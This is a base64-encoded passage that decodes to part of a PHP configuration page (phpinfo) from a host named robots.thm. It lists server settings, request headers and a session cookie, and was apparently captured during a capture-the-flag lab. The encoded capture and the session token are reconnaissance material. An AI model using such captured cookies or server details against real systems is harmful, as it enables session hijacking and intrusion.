c3RyYXRvciA8L3RkPjx0ZCBjbGFzcz0idiI+d2VibWFzdGVyQGxvY2FsaG9zdCA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkhvc3RuYW1lOlBvcnQgPC90ZD48dGQgY2xhc3M9InYiPnJvYm90cy50aG06ODAgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5Vc2VyL0dyb3VwIDwvdGQ+PHRkIGNsYXNzPSJ2Ij53d3ctZGF0YSgzMykvMzMgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5NYXggUmVxdWVzdHMgPC90ZD48dGQgY2xhc3M9InYiPlBlciBDaGlsZDogMCAtIEtlZXAgQWxpdmU6IG9uIC0gTWF4IFBlciBDb25uZWN0aW9uOiAxMDAgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5UaW1lb3V0cyA8L3RkPjx0ZCBjbGFzcz0idiI+Q29ubmVjdGlvbjogMzAwIC0gS2VlcC1BbGl2ZTogNSA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlZpcnR1YWwgU2VydmVyIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ZZXMgPC
90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5TZXJ2ZXIgUm9vdCA8L3RkPjx0ZCBjbGFzcz0idiI+L2V0Yy9hcGFjaGUyIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+TG9hZGVkIE1vZHVsZXMgPC90ZD48dGQgY2xhc3M9InYiPmNvcmUgbW9kX3NvIG1vZF93YXRjaGRvZyBodHRwX2NvcmUgbW9kX2xvZ19jb25maWcgbW9kX2xvZ2lvIG1vZF92ZXJzaW9uIG1vZF91bml4ZCBtb2RfYWNjZXNzX2NvbXBhdCBtb2RfYWxpYXMgbW9kX2F1dGhfYmFzaWMgbW9kX2F1dGhuX2NvcmUgbW9kX2F1dGhuX2ZpbGUgbW9kX2F1dGh6X2NvcmUgbW9kX2F1dGh6X2hvc3QgbW9kX2F1dGh6X3VzZXIgbW9kX2F1dG9pbmRleCBtb2RfZGVmbGF0ZSBtb2RfZGlyIG1vZF9lbnYgbW9kX2ZpbHRlciBtb2RfbWltZSBwcmVmb3JrIG1vZF9uZWdvdGlhdGlvbiBtb2RfcGhwIG1vZF9yZXF0aW1lb3V0IG1vZF9zZXRlbnZpZiBtb2Rfc3RhdHVzIDwvdGQ+
PC90cj4KPC90YWJsZT4KPHRhYmxlPgo8dHIgY2xhc3M9ImgiPjx0aD5EaXJlY3RpdmU8L3RoPjx0aD5Mb2NhbCBWYWx1ZTwvdGg+PHRoPk1hc3RlciBWYWx1ZTwvdGg+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+ZW5naW5lPC90ZD48dGQgY2xhc3M9InYiPk9uPC90ZD48dGQgY2xhc3M9InYiPk9uPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5sYXN0X21vZGlmaWVkPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnhiaXRoYWNrPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjwvdHI+CjwvdGFibGU+CjxoMj5BcGFjaGUgRW52aXJvbm1lbnQ8L2gyPgo8dGFibGU+Cjx0ciBjbGFzcz0iaCI+PHRoPlZhcmlhYmxlPC90aD48dGg+VmFsdWU8L3RoPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkhUVFBfSE9TVCA8L3
RkPjx0ZCBjbGFzcz0idiI+cm9ib3RzLnRobSA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkhUVFBfQ09OTkVDVElPTiA8L3RkPjx0ZCBjbGFzcz0idiI+a2VlcC1hbGl2ZSA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkhUVFBfVVNFUl9BR0VOVCA8L3RkPjx0ZCBjbGFzcz0idiI+TW96aWxsYS81LjAgKFgxMTsgTGludXggeDg2XzY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBIZWFkbGVzc0Nocm9tZS8xMjcuMC42NTMzLjExOSBTYWZhcmkvNTM3LjM2IDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+SFRUUF9BQ0NFUFQgPC90ZD48dGQgY2xhc3M9InYiPiovKiA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkhUVFBfUkVGRVJFUiA8L3RkPjx0ZCBjbGFzcz0idiI+aHR0cDovL3JvYm90cy50aG0vaGFybS90by9zZWxmL2luZGV4LnBocCA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9
ImUiPkhUVFBfQUNDRVBUX0VOQ09ESU5HIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5nemlwLCBkZWZsYXRlIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+SFRUUF9DT09LSUUgPC90ZD48dGQgY2xhc3M9InYiPlBIUFNFU1NJRD1kNmlqZWQ2a3U2MmFncXRmbjFrZTU4ZmpyZSA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlBBVEggPC90ZD48dGQgY2xhc3M9InYiPi91c3IvbG9jYWwvc2JpbjovdXNyL2xvY2FsL2JpbjovdXNyL3NiaW46L3Vzci9iaW46L3NiaW46L2JpbiA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlNFUlZFUl9TSUdOQVRVUkUgPC90ZD48dGQgY2xhc3M9InYiPiZsdDthZGRyZXNzJmd0O0FwYWNoZS8yLjQuNjEgKERlYmlhbikgU2VydmVyIGF0IHJvYm90cy50aG0gUG9ydCA4MCZsdDsvYWRkcmVzcyZndDsKIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+U0VSVkVSX1NPRlRXQVJFIDwvdGQ+PHRkIG
NsYXNzPSJ2Ij5BcGFjaGUvMi40LjYxIChEZWJpYW4pIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+U0VSVkVSX05BTUUgPC90ZD48dGQgY2xhc3M9InYiPnJvYm90cy50aG0gPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5TRVJWRVJfQUREUiA8L3RkPjx0ZCBjbGFzcz0idiI+MTcyLjE4LjAuMyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlNFUlZFUl9QT1JUIDwvdGQ+PHRkIGNsYXNzPSJ2Ij44MCA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlJFTU9URV9BRERSIDwvdGQ+PHRkIGNsYXNzPSJ2Ij4xNzIuMTguMC40IDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+RE9DVU1FTlRfUk9PVCA8L3RkPjx0ZCBjbGFzcz0idiI+L3Zhci93d3cvaHRtbCA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlJFUVVFU1RfU0NIRU1FIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5odHRwIDwvdGQ+PC90cj4KPHRyPjx0ZCBj
bGFzcz0iZSI+Q09OVEVYVF9QUkVGSVggPC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPiA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkNPTlRFWFRfRE9DVU1FTlRfUk9PVCA8L3RkPjx0ZCBjbGFzcz0idiI+L3Zhci93d3cvaHRtbCA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlNFUlZFUl9BRE1JTiA8L3RkPjx0ZCBjbGFzcz0idiI+d2VibWFzdGVyQGxvY2FsaG9zdCA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlNDUklQVF9GSUxFTkFNRSA8L3RkPjx0ZCBjbGFzcz0idiI+L3Zhci93d3cvaHRtbC9oYXJtL3RvL3NlbGYvc2VydmVyX2luZm8ucGhwIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+UkVNT1RFX1BPUlQgPC90ZD48dGQgY2xhc3M9InYiPjQwNTkwIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+R0FURVdBWV9JTlRFUkZBQ0UgPC90ZD48dGQgY2xhc3M9InYiPkNHSS8xLjEgPC
90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5TRVJWRVJfUFJPVE9DT0wgPC90ZD48dGQgY2xhc3M9InYiPkhUVFAvMS4xIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+UkVRVUVTVF9NRVRIT0QgPC90ZD48dGQgY2xhc3M9InYiPkdFVCA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlFVRVJZX1NUUklORyA8L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+IDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+UkVRVUVTVF9VUkkgPC90ZD48dGQgY2xhc3M9InYiPi9oYXJtL3RvL3NlbGYvc2VydmVyX2luZm8ucGhwIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+U0NSSVBUX05BTUUgPC90ZD48dGQgY2xhc3M9InYiPi9oYXJtL3RvL3NlbGYvc2VydmVyX2luZm8ucGhwIDwvdGQ+PC90cj4KPC90YWJsZT4KPGgyPkhUVFAgSGVhZGVycyBJbmZvcm1hdGlvbjwvaDI+Cjx0YWJsZT4KPHRyIGNsYXNzPSJoIj48
dGggY29sc3Bhbj0iMiI+SFRUUCBSZXF1ZXN0IEhlYWRlcnM8L3RoPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkhUVFAgUmVxdWVzdCA8L3RkPjx0ZCBjbGFzcz0idiI+R0VUIC9oYXJtL3RvL3NlbGYvc2VydmVyX2luZm8ucGhwIEhUVFAvMS4xIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+SG9zdCA8L3RkPjx0ZCBjbGFzcz0idiI+cm9ib3RzLnRobSA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkNvbm5lY3Rpb24gPC90ZD48dGQgY2xhc3M9InYiPmtlZXAtYWxpdmUgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5Vc2VyLUFnZW50IDwvdGQ+PHRkIGNsYXNzPSJ2Ij5Nb3ppbGxhLzUuMCAoWDExOyBMaW51eCB4ODZfNjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIEhlYWRsZXNzQ2hyb21lLzEyNy4wLjY1MzMuMTE5IFNhZmFyaS81MzcuMzYgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPS
JlIj5BY2NlcHQgPC90ZD48dGQgY2xhc3M9InYiPiovKiA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlJlZmVyZXIgPC90ZD48dGQgY2xhc3M9InYiPmh0dHA6Ly9yb2JvdHMudGhtL2hhcm0vdG8vc2VsZi9pbmRleC5waHAgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5BY2NlcHQtRW5jb2RpbmcgPC90ZD48dGQgY2xhc3M9InYiPmd6aXAsIGRlZmxhdGUgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5Db29raWUgPC90ZD48dGQgY2xhc3M9InYiPlBIUFNFU1NJRD1kNmlqZWQ2a3U2MmFncXRmbjFrZTU4ZmpyZSA8L3RkPjwvdHI+Cjx0ciBjbGFzcz0iaCI+PHRoIGNvbHNwYW49IjIiPkhUVFAgUmVzcG9uc2UgSGVhZGVyczwvdGg+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+WC1Qb3dlcmVkLUJ5IDwvdGQ+PHRkIGNsYXNzPSJ2Ij5QSFAvOC4zLjEwIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+RXhwaXJlcyA8
L3RkPjx0ZCBjbGFzcz0idiI+VGh1LCAxOSBOb3YgMTk4MSAwODo1MjowMCBHTVQgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5DYWNoZS1Db250cm9sIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5uby1zdG9yZSwgbm8tY2FjaGUsIG11c3QtcmV2YWxpZGF0ZSA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlByYWdtYSA8L3RkPjx0ZCBjbGFzcz0idiI+bm8tY2FjaGUgPC90ZD48L3RyPgo8L3RhYmxlPgo8aDI+PGEgbmFtZT0ibW9kdWxlX2NvcmUiIGhyZWY9IiNtb2R1bGVfY29yZSI+Q29yZTwvYT48L2gyPgo8dGFibGU+Cjx0cj48dGQgY2xhc3M9ImUiPlBIUCBWZXJzaW9uIDwvdGQ+PHRkIGNsYXNzPSJ2Ij44LjMuMTAgPC90ZD48L3RyPgo8L3RhYmxlPgo8dGFibGU+Cjx0ciBjbGFzcz0iaCI+PHRoPkRpcmVjdGl2ZTwvdGg+PHRoPkxvY2FsIFZhbHVlPC90aD48dGg+TWFzdGVyIFZhbHVlPC90aD48L3RyPgo8dHI+PHRkIGNsYX
NzPSJlIj5hbGxvd191cmxfZm9wZW48L3RkPjx0ZCBjbGFzcz0idiI+T248L3RkPjx0ZCBjbGFzcz0idiI+T248L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmFsbG93X3VybF9pbmNsdWRlPC90ZD48dGQgY2xhc3M9InYiPk9uPC90ZD48dGQgY2xhc3M9InYiPk9uPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5hcmdfc2VwYXJhdG9yLmlucHV0PC90ZD48dGQgY2xhc3M9InYiPiZhbXA7PC90ZD48dGQgY2xhc3M9InYiPiZhbXA7PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5hcmdfc2VwYXJhdG9yLm91dHB1dDwvdGQ+PHRkIGNsYXNzPSJ2Ij4mYW1wOzwvdGQ+PHRkIGNsYXNzPSJ2Ij4mYW1wOzwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+YXV0b19hcHBlbmRfZmlsZTwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48L3RyPgo8dHI+
PHRkIGNsYXNzPSJlIj5hdXRvX2dsb2JhbHNfaml0PC90ZD48dGQgY2xhc3M9InYiPk9uPC90ZD48dGQgY2xhc3M9InYiPk9uPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5hdXRvX3ByZXBlbmRfZmlsZTwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5icm93c2NhcDwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5kZWZhdWx0X2NoYXJzZXQ8L3RkPjx0ZCBjbGFzcz0idiI+VVRGLTg8L3RkPjx0ZCBjbGFzcz0idiI+VVRGLTg8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmRlZmF1bHRfbWltZXR5cGU8L3RkPjx0ZCBjbGFzcz0idiI+dGV4dC9odG1sPC90ZD48dGQgY2xhc3M9In
YiPnRleHQvaHRtbDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+ZGlzYWJsZV9jbGFzc2VzPC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmRpc2FibGVfZnVuY3Rpb25zPC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmRpc3BsYXlfZXJyb3JzPC90ZD48dGQgY2xhc3M9InYiPk9uPC90ZD48dGQgY2xhc3M9InYiPk9uPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5kaXNwbGF5X3N0YXJ0dXBfZXJyb3JzPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmRvY19yb290PC90ZD48dGQgY2xhc3M9InYi
PjxpPm5vIHZhbHVlPC9pPjwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmRvY3JlZl9leHQ8L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+ZG9jcmVmX3Jvb3Q8L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+ZW5hYmxlX2RsPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmVuYWJsZV9wb3N0X2RhdGFfcmVhZGluZzwvdGQ+PHRkIGNsYXNzPSJ2Ij5PbjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PbjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+ZX
Jyb3JfYXBwZW5kX3N0cmluZzwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5lcnJvcl9sb2c8L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+ZXJyb3JfbG9nX21vZGU8L3RkPjx0ZCBjbGFzcz0idiI+MDY0NDwvdGQ+PHRkIGNsYXNzPSJ2Ij4wNjQ0PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5lcnJvcl9wcmVwZW5kX3N0cmluZzwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5lcnJvcl9yZXBvcnRpbmc8L3RkPjx0ZCBjbGFzcz0idiI+MjI1Mjc8L3RkPjx0
ZCBjbGFzcz0idiI+MjI1Mjc8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmV4cG9zZV9waHA8L3RkPjx0ZCBjbGFzcz0idiI+T248L3RkPjx0ZCBjbGFzcz0idiI+T248L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmV4dGVuc2lvbl9kaXI8L3RkPjx0ZCBjbGFzcz0idiI+L3Vzci9sb2NhbC9saWIvcGhwL2V4dGVuc2lvbnMvbm8tZGVidWctbm9uLXp0cy0yMDIzMDgzMTwvdGQ+PHRkIGNsYXNzPSJ2Ij4vdXNyL2xvY2FsL2xpYi9waHAvZXh0ZW5zaW9ucy9uby1kZWJ1Zy1ub24tenRzLTIwMjMwODMxPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5maWJlci5zdGFja19zaXplPC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmZpbGVfdXBsb2FkczwvdGQ+PHRkIGNsYXNzPSJ2Ij5PbjwvdGQ+PHRkIG
NsYXNzPSJ2Ij5PbjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+aGFyZF90aW1lb3V0PC90ZD48dGQgY2xhc3M9InYiPjI8L3RkPjx0ZCBjbGFzcz0idiI+MjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+aGlnaGxpZ2h0LmNvbW1lbnQ8L3RkPjx0ZCBjbGFzcz0idiI+PGZvbnQgc3R5bGU9ImNvbG9yOiAjRkY4MDAwIj4jRkY4MDAwPC9mb250PjwvdGQ+PHRkIGNsYXNzPSJ2Ij48Zm9udCBzdHlsZT0iY29sb3I6ICNGRjgwMDAiPiNGRjgwMDA8L2ZvbnQ+PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5oaWdobGlnaHQuZGVmYXVsdDwvdGQ+PHRkIGNsYXNzPSJ2Ij48Zm9udCBzdHlsZT0iY29sb3I6ICMwMDAwQkIiPiMwMDAwQkI8L2ZvbnQ+PC90ZD48dGQgY2xhc3M9InYiPjxmb250IHN0eWxlPSJjb2xvcjogIzAwMDBCQiI+IzAwMDBCQjwvZm9udD48L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmhpZ2hsaWdodC5o
dG1sPC90ZD48dGQgY2xhc3M9InYiPjxmb250IHN0eWxlPSJjb2xvcjogIzAwMDAwMCI+IzAwMDAwMDwvZm9udD48L3RkPjx0ZCBjbGFzcz0idiI+PGZvbnQgc3R5bGU9ImNvbG9yOiAjMDAwMDAwIj4jMDAwMDAwPC9mb250PjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+aGlnaGxpZ2h0LmtleXdvcmQ8L3RkPjx0ZCBjbGFzcz0idiI+PGZvbnQgc3R5bGU9ImNvbG9yOiAjMDA3NzAwIj4jMDA3NzAwPC9mb250PjwvdGQ+PHRkIGNsYXNzPSJ2Ij48Zm9udCBzdHlsZT0iY29sb3I6ICMwMDc3MDAiPiMwMDc3MDA8L2ZvbnQ+PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5oaWdobGlnaHQuc3RyaW5nPC90ZD48dGQgY2xhc3M9InYiPjxmb250IHN0eWxlPSJjb2xvcjogI0REMDAwMCI+I0REMDAwMDwvZm9udD48L3RkPjx0ZCBjbGFzcz0idiI+PGZvbnQgc3R5bGU9ImNvbG9yOiAjREQwMDAwIj4jREQwMDAwPC9mb250PjwvdGQ+PC
90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+aHRtbF9lcnJvcnM8L3RkPjx0ZCBjbGFzcz0idiI+T248L3RkPjx0ZCBjbGFzcz0idiI+T248L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmlnbm9yZV9yZXBlYXRlZF9lcnJvcnM8L3RkPjx0ZCBjbGFzcz0idiI+T2ZmPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+aWdub3JlX3JlcGVhdGVkX3NvdXJjZTwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjx0ZCBjbGFzcz0idiI+T2ZmPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5pZ25vcmVfdXNlcl9hYm9ydDwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjx0ZCBjbGFzcz0idiI+T2ZmPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5pbXBsaWNpdF9mbHVzaDwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjx0ZCBjbGFzcz0idiI+T2ZmPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5p
bmNsdWRlX3BhdGg8L3RkPjx0ZCBjbGFzcz0idiI+LjovdXNyL2xvY2FsL2xpYi9waHA8L3RkPjx0ZCBjbGFzcz0idiI+LjovdXNyL2xvY2FsL2xpYi9waHA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmlucHV0X2VuY29kaW5nPC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmludGVybmFsX2VuY29kaW5nPC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPmxvZ19lcnJvcnM8L3RkPjx0ZCBjbGFzcz0idiI+T248L3RkPjx0ZCBjbGFzcz0idiI+T248L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPm1haWwuYWRkX3hfaGVhZGVyPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PHRkIG
NsYXNzPSJ2Ij5PZmY8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPm1haWwuZm9yY2VfZXh0cmFfcGFyYW1ldGVyczwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5tYWlsLmxvZzwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5tYWlsLm1peGVkX2xmX2FuZF9jcmxmPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPm1heF9leGVjdXRpb25fdGltZTwvdGQ+PHRkIGNsYXNzPSJ2Ij4zMDwvdGQ+PHRkIGNsYXNzPSJ2Ij4zMDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+bWF4X2ZpbGVfdXBsb2Fkczwv
dGQ+PHRkIGNsYXNzPSJ2Ij4yMDwvdGQ+PHRkIGNsYXNzPSJ2Ij4yMDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+bWF4X2lucHV0X25lc3RpbmdfbGV2ZWw8L3RkPjx0ZCBjbGFzcz0idiI+NjQ8L3RkPjx0ZCBjbGFzcz0idiI+NjQ8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPm1heF9pbnB1dF90aW1lPC90ZD48dGQgY2xhc3M9InYiPjYwPC90ZD48dGQgY2xhc3M9InYiPjYwPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5tYXhfaW5wdXRfdmFyczwvdGQ+PHRkIGNsYXNzPSJ2Ij4xMDAwPC90ZD48dGQgY2xhc3M9InYiPjEwMDA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPm1heF9tdWx0aXBhcnRfYm9keV9wYXJ0czwvdGQ+PHRkIGNsYXNzPSJ2Ij4tMTwvdGQ+PHRkIGNsYXNzPSJ2Ij4tMTwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+bWVtb3J5X2xpbWl0PC90ZD48dGQgY2xhc3M9InYiPjEyOE08L3RkPj
x0ZCBjbGFzcz0idiI+MTI4TTwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+b3Blbl9iYXNlZGlyPC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPm91dHB1dF9idWZmZXJpbmc8L3RkPjx0ZCBjbGFzcz0idiI+NDA5NjwvdGQ+PHRkIGNsYXNzPSJ2Ij40MDk2PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5vdXRwdXRfZW5jb2Rpbmc8L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+b3V0cHV0X2hhbmRsZXI8L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+cG9z
